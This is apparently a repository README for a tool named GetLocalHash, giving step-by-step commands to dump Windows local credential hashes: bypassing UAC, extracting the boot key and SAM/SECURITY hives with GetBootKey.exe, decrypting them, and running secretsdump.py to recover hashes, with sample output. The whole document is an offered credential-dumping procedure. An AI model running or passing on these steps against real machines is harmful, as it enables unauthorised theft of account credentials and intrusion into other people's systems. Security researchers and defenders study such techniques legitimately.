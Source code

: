 # GetLocalHash
A Way Dump Windows Local Hash

1) need bypassUac
   GetBootKey.exe "c:\Users\public" "key"
   [*] BootKey is:ac2d10172afa9c3f91b09a4bcb8813a6
   [*]File Dump Done: c:\Users\public\SAM
   [*]File Dump Done: c:\Users\public\SECURITY
3) decrypt
   python xorencrypt.py sam.dat
   python xorencrypt.py SECURITY.dat

4) getHash
   python secretsdump.py -sam c:\Users\public\sam -security c:\Users\public\SECURITY -bootkey ac2d10172afa9c3f91b09a4bcb8813a6 LOCAL
   
   
   
